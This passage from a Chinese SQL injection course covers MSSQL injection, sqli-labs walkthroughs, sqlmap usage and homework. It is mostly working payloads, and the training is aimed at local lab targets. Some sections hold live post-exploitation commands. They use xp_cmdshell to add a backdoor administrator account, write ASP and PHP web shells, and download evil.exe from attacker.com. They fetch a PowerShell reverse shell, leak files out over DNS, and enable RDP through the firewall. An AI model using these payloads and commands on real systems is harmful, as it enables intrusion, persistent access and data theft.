-- 1. 判断列数（ORDER BY）
SELECT * FROM users WHERE id = 1 ORDER BY 4;   -- 正常
SELECT * FROM users WHERE id = 1 ORDER BY 5;   -- 报错 → 4 列
GO

-- 2. UNION   mssql中UNION SELECT后面的字段的数据类型要和SELECT后面的数据类型要一致
SELECT * FROM users WHERE id = 1 WHERE 1=1 UNION SELECT 1,2,3,4;
GO

-- 3. 替换显示位
SELECT * FROM users WHERE id = 9999 UNION SELECT 1, DB_NAME(), SYSTEM_USER, @@VERSION;
GO
```

> ⚠️ **MSSQL 数据类型严格**：每列必须有合适类型。报错时用 `CAST(... AS NVARCHAR(4000))`。

### 3.4.2 偷数据
```sql
-- 当前库
SELECT * FROM users WHERE id = 9999 UNION SELECT 1, DB_NAME(), 3, 4;
GO

-- 所有库
SELECT * FROM users WHERE id = 9999 UNION SELECT 1, name, 3, 4 FROM master..sysdatabases;
GO

-- 表名（用 sys.tables）
SELECT * FROM users WHERE id = 9999 UNION SELECT 1, name, 3, 4 FROM sys.tables;
GO

-- 列名
SELECT * FROM users WHERE id = 9999 UNION SELECT 1, name, 3, 4 FROM sys.columns WHERE object_id = OBJECT_ID('secrets');
GO

-- 数据
SELECT * FROM users WHERE id = 9999 UNION SELECT 1, secret_key, 3, 4 FROM secrets;
GO
```

---

## 3.5 MSSQL 报错注入
MSSQL **不像 MySQL 那样有丰富的报错函数**。常用的是 **类型转换报错**：

```sql
-- CAST 触发转换错误，错误信息带出查询结果
SELECT * FROM users WHERE id = 1 AND 1 = CONVERT(INT, DB_NAME());
GO
-- 错误：在将 nvarchar 值 'sqli_lab' 转换成数据类型 int 时失败。

-- 偷密码
SELECT * FROM users WHERE id = 1 AND 1 = CONVERT(INT, (SELECT TOP 1 password FROM users WHERE username='admin'));
GO
-- 错误：在将 nvarchar 值 'admin123' 转换成数据类型 int 时失败。
```

**原理解析**：

```plain
CONVERT(INT, 'sqli_lab')
           ↑↑↑↑↑↑↑↑↑
        字符串不能转 int
        → 报错 + 错误信息回显字符串内容
```

---

## 3.6 MSSQL 布尔盲注 & 时间盲注
### 3.6.1 布尔
```sql
-- 同 MySQL，只是函数不同
SELECT * FROM users WHERE id = 1 AND ASCII(SUBSTRING(DB_NAME(), 1, 1)) = 115;
GO
-- 有结果 → 第一个字符是 's'
```

### 3.6.2 时间盲注（WAITFOR DELAY）
```sql
-- 测试 WAITFOR
WAITFOR DELAY '0:0:5';
GO
-- 卡 5 秒

-- 条件延迟
IF (ASCII(SUBSTRING(DB_NAME(), 1, 1)) = 115) WAITFOR DELAY '0:0:5';
GO
-- 是 's' → 卡 5 秒

-- 在 WHERE 中
SELECT * FROM users WHERE id = 1;
IF EXISTS(SELECT * FROM users WHERE username='admin') WAITFOR DELAY '0:0:5';
GO
```

---

## 3.7 xp_cmdshell —— 命令执行！（重点）
### 3.7.1 这是什么？
> `xp_cmdshell` 是 MSSQL 内置的**扩展存储过程**，可以**直接执行操作系统命令**！

```sql
EXEC xp_cmdshell 'whoami';
-- 输出：nt authority\system (通常是 SYSTEM 权限)
```

### 3.7.2 默认状态
> 出于安全考虑，**MSSQL 2005 之后默认禁用** `xp_cmdshell`。但只要你是 **sa 高权限**，就可以**自己开启**！

### 3.7.3 开启 xp_cmdshell 的完整流程
```sql
-- 1. 检查是否开启
EXEC sp_configure 'xp_cmdshell';
GO
-- 如果 run_value = 0 → 禁用

-- 2. 启用 advanced options
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
GO

-- 3. 启用 xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO

-- 4. 再次确认
EXEC sp_configure 'xp_cmdshell';
GO
-- run_value = 1 → 已启用

-- 5. 测试执行
EXEC xp_cmdshell 'whoami';
GO
-- 输出：
-- nt authority\system
```

### 3.7.4 通过 SQL 注入开启 xp_cmdshell
> 🎯 **真实攻击场景**：发现 MSSQL 注入 + 堆叠查询 → 一键开启 + 命令执行。
>

注入 Payload（假设 URL：`?id=1;...`）：

```sql
1;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;--
```

URL 编码版：

```plain
?id=1;EXEC%20sp_configure%20'show%20advanced%20options',1;RECONFIGURE;EXEC%20sp_configure%20'xp_cmdshell',1;RECONFIGURE;--
```

然后执行命令：

```sql
1;EXEC xp_cmdshell 'whoami';--
```

### 3.7.5 实战命令清单
```sql
-- 查身份
EXEC xp_cmdshell 'whoami';

-- 系统信息
EXEC xp_cmdshell 'ipconfig /all';
EXEC xp_cmdshell 'systeminfo';

-- 列目录
EXEC xp_cmdshell 'dir C:\';

-- 添加用户（提权必备）
EXEC xp_cmdshell 'net user backdoor P@ss1234 /add';
EXEC xp_cmdshell 'net localgroup administrators backdoor /add';

-- 写 Webshell
EXEC xp_cmdshell 'echo ^<%eval request("cmd")%^> > C:\inetpub\wwwroot\shell.asp';

-- 下载文件
EXEC xp_cmdshell 'certutil -urlcache -split -f http://attacker.com/evil.exe C:\evil.exe';

-- 反弹 shell（PowerShell）
EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://attacker.com/shell.ps1'')"';
```

### 3.7.6 数据外带（OOB）
当**命令结果无法直接回显**时，可用 `dnslog` 把结果**通过 DNS 查询外带**：

```sql
EXEC xp_cmdshell 'nslookup %COMPUTERNAME%.attacker.dnslog.cn';
-- 把计算机名作为子域，攻击者 DNS 服务器能收到
```

```sql
-- 更高级：把文件内容外带
EXEC xp_cmdshell 'powershell -c "Get-Content C:\flag.txt | ForEach-Object { nslookup $_.attacker.dnslog.cn }"';
```

> 🎯 **渗透黑话**：这叫 **OOB（Out-of-Band）数据外带**，是盲注的终极手段。
>

---

## 3.8 当 xp_cmdshell 被禁用怎么办？
### 3.8.1 sp_OACreate（OLE Automation Procedures）
```sql
-- 1. 启用
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;
GO

-- 2. 用 sp_OACreate 执行命令
DECLARE @shell INT;
EXEC sp_OACreate 'WScript.Shell', @shell OUT;
EXEC sp_OAMethod @shell, 'Run', null, 'cmd /c whoami > C:\result.txt';
GO

-- 3. 读结果
BULK INSERT temp_table FROM 'C:\result.txt';
-- 或 CREATE TABLE + BULK INSERT
```

### 3.8.2 CLR Assembly（更高级）
> 用 .NET 写恶意代码，加载到 MSSQL 作为存储过程执行。**沙箱绕过神器**，但需 `sa` 权限。

### 3.8.3 Agent Job
> 用 SQL Server Agent 创建定时任务，间接执行命令。

---

## 3.9 MSSQL 文件读写
```sql
-- 读文件（sp_OACreate + FileSystemObject）
DECLARE @fso INT, @file INT, @text NVARCHAR(4000);
EXEC sp_OACreate 'Scripting.FileSystemObject', @fso OUT;
EXEC sp_OAMethod @fso, 'OpenTextFile', @file OUT, 'C:\flag.txt', 1;
EXEC sp_OAMethod @file, 'ReadAll', @text OUT;
SELECT @text;
GO

-- 写文件
EXEC xp_cmdshell 'echo content > C:\test.txt';
```

---

## 3.10 课时 3 小结
| 模块 | 要点 |
| --- | --- |
| 差异 | MSSQL 支持堆叠、有 xp_cmdshell |
| 函数 | DB_NAME / SYSTEM_USER / @@VERSION / TOP / WAITFOR DELAY |
| UNION | 注意数据类型，用 CAST 兼容 |
| 报错 | CONVERT(INT, ...) 类型转换 |
| 时间盲注 | WAITFOR DELAY '0:0:5' |
| **xp_cmdshell** | **核心命令执行途径** |
| 备选 | sp_OACreate / CLR / Agent Job |
| 数据外带 | dnslog + nslookup |


### 课间实操（30 min）
1. Docker 启动 MSSQL，进入 sqlcmd。
2. 建库建表，插入测试数据。
3. 用 UNION 注入偷出 `secrets` 表。
4. 用 `CONVERT(INT, ...)` 报错拿到当前用户。
5. **开启 xp_cmdshell**，执行 `whoami` 看权限。
6. 用 xp_cmdshell 创建一个新用户（`net user` 命令）。
7. 用 dnslog 把 `whoami` 结果外带出来（自己搭一个 dnslog）。


# 第 4 课时：sqli-labs 靶场实战 + sqlmap
## 4.1 sqli-labs 简介
### 4.1.1 这是什么？
> **sqli-labs**：印度安全专家 Amit Kumar 講堂开发的 **SQL 注入专项靶场**，共 **75 关**，覆盖几乎所有 SQL 注入类型。
>

### 4.1.2 关卡分类
| 关卡 | 类型 |
| --- | --- |
| Less 1-10 | 基础 UNION 注入（数字/字符型） |
| Less 11-16 | POST 注入 |
| Less 17-22 | 报错注入、Header 注入 |
| Less 23-37 | 绕过（过滤注释、宽字节） |
| Less 38-53 | 堆叠注入 |
| Less 54-65 | 挑战关（限定次数） |
| Less 66-75 | 盲注 |


---

## 4.2 环境搭建：Docker 跑 sqli-labs
```bash
# 启动
docker run -d \
  --name sqli-labs \
  -p 8007:80 \
  acgpiano/sqli-labs

# 等待 30 秒
# 访问 http://localhost:8007
```

### 4.2.1 初始化数据库
浏览器访问 `http://localhost:8007/sql-connections/` → 点击 **Setup / Reset Database for sqli-labs**。

看到 `Database setup complete` 即可。

### 4.2.2 进入容器看源码（重要！）
```bash
docker exec -it sqli-labs bash
cd /var/www/html
ls
# 每关一个文件夹 / Less-1, / Less-2 ...
cat Less-1/index.php | head -30
```

> 💡 **看源码 = 知道闭合方式**。例如 Less-1 的源码里有 `$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";` → 字符型，单引号闭合。
>

---

## 4.3 实战第 1-10 关（GET 注入）
### 4.3.1 Less-1：单引号字符型 UNION 注入
**源码**：

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

**判断**：URL `?id=1` 正常，`?id=1'` 报错 → **单引号字符型**。

**Payload 进化**：
```http
# 1. 测试
?id=1                       → 正常
?id=1'                      → 报错（SQL syntax）

# 2. 闭合 + 注释
?id=1'-- -                  → 正常

# 3. 列数
?id=1' ORDER BY 1-- -       → 正常
?id=1' ORDER BY 2-- -       → 正常
?id=1' ORDER BY 3-- -       → 正常
?id=1' ORDER BY 4-- -       → 报错 → 3 列

# 4. UNION 找显示位
?id=-1' UNION SELECT 1,2,3-- -
# 页面显示：Your Login name: 2 / Your Password: 3
# → 显示位是第 2 和第 3 列

# 5. 当前库
?id=-1' UNION SELECT 1,database(),3-- -
# → security

# 6. 所有库
?id=-1' UNION SELECT 1,GROUP_CONCAT(schema_name),3 FROM information_schema.schemata-- -
# → information_schema,security,challenges,...

# 7. 所有表
?id=-1' UNION SELECT 1,GROUP_CONCAT(table_name),3 FROM information_schema.tables WHERE table_schema='security'-- -
# → emails,referers,uagents,users

# 8. 所有列
?id=-1' UNION SELECT 1,GROUP_CONCAT(column_name),3 FROM information_schema.columns WHERE table_name='users'-- -
# → id,username,password

# 9. 偷数据
?id=-1' UNION SELECT 1,GROUP_CONCAT(username,0x3a,password),3 FROM users-- -
# → admin:admin,admin1:admin1,...
```

### 4.3.2 Less-2：数字型 UNION 注入
**源码**：`$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`

**Payload**：不需要单引号闭合
```http
?id=1 ORDER BY 4-- -
?id=-1 UNION SELECT 1,database(),3-- -
```

### 4.3.3 Less-3：单引号+括号字符型
**源码**：`WHERE id=('$id')`

**Payload**：闭合 `')`
```http
?id=1')-- -
?id=-1') UNION SELECT 1,database(),3-- -
```

### 4.3.4 Less-4：双引号+括号字符型
**源码**：`WHERE id=("$id")`

**Payload**：闭合 `")`

```http
?id=1")-- -
?id=-1") UNION SELECT 1,database(),3-- -
```

### 4.3.5 Less-5：单引号字符型 + 报错注入
**特征**：页面只显示 "You are in..."，**不回显具体数据**。但会显示 SQL 错误。

**Payload**：用报错注入

```http
?id=1' AND extractvalue(1, CONCAT(0x7e, database()))-- -
# XPATH syntax error: '~security'

?id=1' AND updatexml(1, CONCAT(0x7e, (SELECT user())), 1)-- -
# XPATH syntax error: '~root@localhost'

?id=1' AND extractvalue(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(username,0x3a,password) FROM users)))-- -
# 截断 → 用 SUBSTR
?id=1' AND extractvalue(1, CONCAT(0x7e, SUBSTR((SELECT GROUP_CONCAT(username,0x3a,password) FROM users), 1, 30)))-- -
```

### 4.3.6 Less-6：双引号字符型 + 报错
同 5，把 `'` 改成 `"`。

### 4.3.7 Less-7：写入文件
**特征**：报错信息被屏蔽，但可以用 `INTO OUTFILE` 写 shell。

**前提**：MySQL `secure_file_priv` 配置允许（默认空字符串或 NULL）。

```http
?id=1')) UNION SELECT 1,"<?php @eval($_POST['cmd']);?>",3 INTO OUTFILE '/var/www/html/shell.php'-- -
```

成功后访问 `http://localhost:8007/shell.php` 即可连接菜刀。

### 4.3.8 Less-8：布尔盲注
**特征**：成功显示 "You are in..."，失败无任何显示。无错误信息。

**Payload**：
```http
# 测试
?id=1' AND 1=1-- -          → You are in
?id=1' AND 1=2-- -          → 空

# 猜数据库名长度
?id=1' AND LENGTH(database())=8-- -

# 二分法猜字符
?id=1' AND ASCII(SUBSTR(database(),1,1))>100-- -
?id=1' AND ASCII(SUBSTR(database(),1,1))=115-- -     # s
```

### 4.3.9 Less-9：时间盲注
**特征**：**任何输入都显示 "You are in..."**（统一页面）。

**Payload**：
```http
?id=1' AND IF(LENGTH(database())=8, SLEEP(3), 0)-- -
# 响应慢 → 长度 8

?id=1' AND IF(ASCII(SUBSTR(database(),1,1))=115, SLEEP(3), 0)-- -
# 响应慢 → 第一字符 s
```

### 4.3.10 Less-10：双引号时间盲注
同 9，把 `'` 改成 `"`。

---

## 4.4 POST 注入（Less 11-16）
### 4.4.1 Less-11：POST 单引号字符型
**界面**：登录表单（username / password）。

**用 Burp 抓包**，把 username 改成：

```http
username=admin'-- -&password=anything&submit=Submit
```

**万能密码**：

```http
username=' or 1=1-- -&password=xxx
```

### 4.4.2 Less-12-16：不同闭合方式
| 关 | 闭合 |
| --- | --- |
| 11 | `'` |
| 12 | `")` |
| 13 | `')` |
| 14 | `"` |
| 15 | `'`（时间盲注） |
| 16 | `")`（时间盲注） |


---

## 4.5 绕过技巧（Less 17-37）
### 4.5.1 Less-17：UPDATE 注入
**特征**：登录页只对 password 字段过滤，username 没过滤。

**Payload**（注入 password 字段）：
```http
username=admin&password=' AND updatexml(1,CONCAT(0x7e,user()),1)-- -&submit=Submit
```

### 4.5.2 Less-18：User-Agent 头注入
**特征**：登录成功后**记录 User-Agent**到数据库。

**用 Burp 抓包**，修改 UA：
```http
User-Agent: ' AND updatexml(1,CONCAT(0x7e,user()),1) AND '1'='1
```

### 4.5.3 Less-19：Referer 头注入
同 18，注入 Referer。

### 4.5.4 Less-20：Cookie 注入
修改 Cookie：

```http
Cookie: uname=' AND updatexml(1,CONCAT(0x7e,user()),1)-- -
```

### 4.5.5 Less-23：过滤注释
**特征**：源码过滤 `#` 和 `--`。

**绕过**：用 `';'` 或 `'='` 闭合：
```http
?id=1' UNION SELECT 1,database(),'3
# 末尾的 ' 闭合了原 SQL 的最后一个引号
```

### 4.5.6 Less-25：过滤 OR AND
**特征**：源码过滤 `OR` `AND` 关键字。

**绕过**：
```http
?id=1' UNION SELECT 1,database(),3-- -
# 不需要 OR AND 也行
# 或用大小写：oR aNd
# 或用符号：|| && 
?id=1'||1=1-- -
```

### 4.5.7 Less-26：过滤空格和注释
**绕过**：用 `%a0` `%0b` 等空白符，或用括号：

```http
?id=1'%a0UNION%a0SELECT%a01,database(),3%a0--%a0-
```

### 4.5.8 Less-27：过滤 UNION SELECT
**绕过**：大小写混合 / 双写：
```http
?id=1'%0AuNiOn%0ASeLeCt%0A1,database(),3
```

### 4.5.9 Less-32-36：宽字节注入
**特征**：用 `addslashes` 转义。

**Payload**：
```http
?id=-1%df' UNION SELECT 1,database(),3-- -
```

---

## 4.6 堆叠注入（Less 38-53）
### 4.6.1 Less-38：堆叠
**Payload**：
```http
?id=1;CREATE TABLE test LIKE users;-- -
?id=1;INSERT INTO users VALUES(100,'hacker','hacked');-- -
```

### 4.6.2 堆叠的危害
可以**执行任意 SQL**：增删改查、新建用户、改密码、删表等。

---

## 4.7 配合 Burp Suite 实战
### 4.7.1 完整工作流


### 4.7.2 抓包改包实操
1. 浏览器配置 Burp 代理
2. 访问 `http://localhost:8007/Less-1/?id=1`
3. Burp HTTP History 找到该请求
4. 右键 → Send to Repeater（Ctrl+R）
5. 在 Repeater 里修改 `id` 参数
6. 点 Send 看响应
7. 反复迭代 Payload

### 4.7.3 Intruder 批量盲注
**场景**：布尔盲注时枚举字符 ASCII 值。

1. Send to Intruder（Ctrl+I）
2. 标记 Payload 位置：
```plain
?id=1' AND ASCII(SUBSTR(database(),§1§,1))=§115§-- -
```

3. 设置：
    - Position 1：1-8（字符位置）
    - Position 2：32-127（ASCII 值）
4. Attack type：**Pitchfork**
5. 开始 → 看哪个 Payload 组合响应长度不同

---

## 4.8 sqlmap 自动化（必学）
### 4.8.1 安装
```bash
# Docker
docker run -it --rm sqlmap/sqlmap sqlmap.py --version

# Kali 自带
sqlmap --version

# Python 安装
git clone https://github.com/sqlmapproject/sqlmap
cd sqlmap
python3 sqlmap.py --version
```

### 4.8.2 基础流程
```bash
# 1. 检测注入
python3 sqlmap.py -u "http://localhost:8007/Less-1/?id=1"

# 2. 获取数据库
python3 sqlmap.py -u "http://localhost:8007/Less-1/?id=1" --dbs

# 3. 获取表
python3 sqlmap.py -u "http://localhost:8007/Less-1/?id=1" -D security --tables

# 4. 获取列
python3 sqlmap.py -u "http://localhost:8007/Less-1/?id=1" -D security -T users --columns

# 5. dump 数据
python3 sqlmap.py -u "http://localhost:8007/Less-1/?id=1" -D security -T users --dump
```

### 4.8.3 配合 Burp（POST 注入）
1. Burp 抓到 POST 请求 → 右键 → Save to file → `req.txt`
2. 跑 sqlmap：

```bash
python3 sqlmap.py -r req.txt -p username --batch
```

`-p` 指定注入点。

### 4.8.4 常用参数
| 参数 | 含义 |
| --- | --- |
| `-u` | URL |
| `-r` | 从文件读请求 |
| `-p` | 指定参数 |
| `--dbs` | 列所有库 |
| `-D / -T / -C` | 库 / 表 / 列 |
| `--dump` | 导出数据 |
| `--batch` | 不问，用默认 |
| `--level=5` | 测试级别（1-5，越高越全） |
| `--risk=3` | 风险级别（1-3，越高越激进） |
| `--dbms=mysql` | 指定数据库类型 |
| `--technique=BEUSTQ` | 指定技术（B布尔/E报错/U联合/S堆叠/T时间/Q内联） |
| `--os-shell` | 尝试拿 shell |
| `--sql-shell` | SQL shell |
| `--tamper` | 绕过脚本 |
| `--random-agent` | 随机 UA |


### 4.8.5 进阶命令
```bash
# 尝试拿 shell（前提：高权限 + secure_file_priv 允许）
python3 sqlmap.py -u "..." --os-shell

# 自动绕过 WAF
python3 sqlmap.py -u "..." --tamper="space2comment,between"

# 指定技术为时间盲注
python3 sqlmap.py -u "..." --technique=T --time-sec=5

# 测试 level=5（试 HTTP 头）
python3 sqlmap.py -u "..." --level=5
```

---

## 4.9 毕业 Lab：完成 sqli-labs 全 1-37 关
### 任务清单（建议每周完成 10 关）
| 阶段 | 关卡 | 学习目标 | 预计用时 |
| :---: | --- | --- | :---: |
| 入门 | 1-4 | UNION + 各种闭合 | 2h |
| 进阶 | 5-10 | 报错 + 盲注 | 4h |
| POST | 11-16 | POST + 登录表单 | 2h |
| 高级 | 17-22 | Header / UPDATE 注入 | 3h |
| 绕过 | 23-37 | 过滤绕过 / 宽字节 | 8h |
| 堆叠 | 38-53 | 堆叠查询 | 4h |


### 报告要求
每关产出：
+ 漏洞类型（数字/字符/闭合方式）
+ 完整 Payload
+ 截图证据
+ 防御建议

---

## 4.10 课时 4 小结
| 模块 | 要点 |
| --- | --- |
| sqli-labs | 75 关覆盖所有 SQLi 类型 |
| 工具 | Burp 抓包 + sqlmap 自动化 |
| 工作流 | Burp Repeater 手测 → sqlmap 全 dump |
| 通关 | 1-37 关必刷，38+ 进阶 |

---

# 附录 A：注入类型对照表
| 类型 | 判断特征 | 关键 Payload |
| --- | --- | --- |
| UNION | 页面回显数据 | `UNION SELECT 1,2,3` |
| 报错 | 页面打印 SQL 错误 | `extractvalue(1,concat(0x7e,xx))` |
| 布尔 | 页面有真假两种状态 | `AND ASCII(SUBSTR(...))=N` |
| 时间 | 页面无差异 | `IF(条件,SLEEP(5),0)` |
| 宽字节 | GBK + addslashes | `%df'-- -` |
| 堆叠 | MySQL 默认不支持 | `; DROP TABLE x` |
| 二次 | 注册时存入，再次调用触发 | 二次拼接 |


---

# 附录 B：MSSQL 提权完整流程
```plain
1. 发现 MSSQL 注入点
   ↓
2. 堆叠查询探测权限
   SELECT IS_SRVROLEMEMBER('sysadmin')
   ↓
3. 是 sa → 启用 xp_cmdshell
   EXEC sp_configure 'show advanced options',1;RECONFIGURE;
   EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
   ↓
4. 执行命令
   EXEC xp_cmdshell 'whoami';
   ↓
5. 提权（如有必要）
   net user hacker P@ssw0rd /add
   net localgroup administrators hacker /add
   ↓
6. 开启远程桌面（3389）
   REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
   netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389
   ↓
7. 远程登录 / 反弹 shell
```

---

# 附录 C：sqlmap 高级命令速查
```bash
# 基本
sqlmap -u URL
sqlmap -r req.txt -p 参数

# 数据提取
sqlmap ... --dbs
sqlmap ... -D 库 --tables
sqlmap ... -D 库 -T 表 --columns
sqlmap ... -D 库 -T 表 --dump
sqlmap ... --dump-all                  # 全部数据
sqlmap ... --current-db
sqlmap ... --current-user
sqlmap ... --passwords                 # 数据库密码哈希

# 注入技术
sqlmap ... --technique=B               # 只用布尔
sqlmap ... --technique=BEUSTQ          # 全部
sqlmap ... --level=5 --risk=3          # 高强度
sqlmap ... --dbms=mysql                # 指定数据库
sqlmap ... --os-shell                  # 拿 shell
sqlmap ... --sql-shell                 # SQL shell
sqlmap ... --file-read="/etc/passwd"   # 读文件
sqlmap ... --file-write="shell.php" --file-dest="/var/www/html/shell.php"  # 写文件

# 绕过
sqlmap ... --tamper=space2comment      # 空格转注释
sqlmap ... --tamper=between            # > 转 BETWEEN
sqlmap ... --random-agent              # 随机 UA
sqlmap ... --delay=1                   # 延迟 1 秒避免限流
sqlmap ... --proxy="http://127.0.0.1:8080"   # 配 Burp
```

---

# 附录 D：常用 Payload 速查
## MySQL 注释
```plain
-- -              最常用（注意末尾空格）
#                 MySQL 专用
/* */             C 风格
/*!50000 SELECT */ MySQL 内联注释（50000 = 版本号）
`                 反引号（绕过部分过滤）
```

## MySQL 字符串连接
```plain
CONCAT(a, b)                  一般
CONCAT_WS(0x7e, a, b)         用分隔符
GROUP_CONCAT(col SEPARATOR ',')  聚合
```

## MySQL 关键函数
```plain
database() / version() / user() / @@datadir / @@basedir
LOAD_FILE('/etc/passwd')              读文件（需高权限）
'xxx' INTO OUTFILE '/path/to/file'    写文件
SLEEP(5) / BENCHMARK(...)             延迟
HEX() / UNHEX()                       十六进制
```

## MSSQL 注释
```plain
--        （注意末尾空格）
/* */
```

## MSSQL 关键函数
```plain
DB_NAME()           当前库
@@VERSION           版本
SYSTEM_USER         当前用户
TOP N               限制
WAITFOR DELAY       延迟
CONVERT(...)        类型转换
```

---

# 课后作业（提交截止：下次课前）
## 一、基础题（30 分）
1. 默写 SQL 注入的 4 大类型及判断特征。
2. 解释宽字节注入的原理（举例说明 `%df%27` 如何绕过 addslashes）。
3. 解释 `floor(rand(0)*2)` 报错注入的触发条件。
4. MSSQL 中如何启用 `xp_cmdshell`？为什么需要 `RECONFIGURE`？

## 二、数据库层实操题（30 分）
在 MySQL/MSSQL CLI 完成：

1. 用 UNION 一次性拿到所有用户的密码哈希。
2. 用 `extractvalue` 报错拿到 `@@datadir`。
3. 用 `floor+rand+group by` 报错拿到 `user()`。
4. 用布尔盲注手工猜出当前数据库名（不用工具）。
5. 用 `IF+SLEEP` 验证数据库名长度。
6. 在 MSSQL 中开启 `xp_cmdshell`，执行 `whoami`。

## 三、靶场实操题（30 分）
完成 sqli-labs 至少 **15 关**（含必做）：

| 必做 | 关卡 | 类型 |
| :---: | :---: | --- |
| ✓ | 1 | 字符型 UNION |
| ✓ | 5 | 报错注入 |
| ✓ | 8 | 布尔盲注 |
| ✓ | 9 | 时间盲注 |
| ✓ | 11 | POST 注入 |
| ✓ | 18 | UA 头注入 |
| ✓ | 25 | 绕过 OR/AND |
| ✓ | 32 | 宽字节注入 |
| ✓ | 38 | 堆叠注入 |


每关提交 Payload + 截图。

## 四、自动化题（10 分）
用 sqlmap 自动化拿下 sqli-labs Less-1，dump 出所有用户密码。

# 课程回顾（必背 30 条）
1. SQL 注入本质 = 输入被当代码执行
2. 4 大类型：UNION / 报错 / 布尔 / 时间
3. 5 步法：找点 → 判断 → 定型 → 回显 → 提数
4. UNION 必须列数相同
5. information_schema 是 MySQL 元数据库
6. `GROUP_CONCAT` 一行合并多个值
7. extractvalue / updatexml 报错注入
8. 报错信息最长 32 字符 → SUBSTR 分段
9. floor+rand(0)*2+group by 经典报错
10. floor 报错需 ≥ 3 条记录
11. 布尔盲注用 ASCII + SUBSTR
12. 二分法盲注 = 7 次定一字符
13. 时间盲注用 IF + SLEEP
14. SLEEP 被禁用 BENCHMARK
15. 宽字节 = GBK + %df 让 \ 被吞
16. 宽字节防御 = PDO 预编译
17. MySQL 默认不支持堆叠
18. **MSSQL 默认支持堆叠**
19. MSSQL 关键函数：DB_NAME / SYSTEM_USER / @@VERSION
20. MSSQL 报错用 CONVERT(INT, ...)
21. MSSQL 时间盲注用 WAITFOR DELAY
22. **xp_cmdshell = MSSQL 命令执行**
23. 启用 xp_cmdshell 需 RECONFIGURE
24. xp_cmdshell 禁用时用 sp_OACreate
25. 数据外带用 dnslog
26. sqli-labs 是必刷靶场（75 关）
27. Burp + sqlmap 是标准组合
28. sqlmap `-r req.txt` 读 Burp 抓包
29. sqlmap `--os-shell` 可拿 shell
30. **授权是底线，靶场是家园**
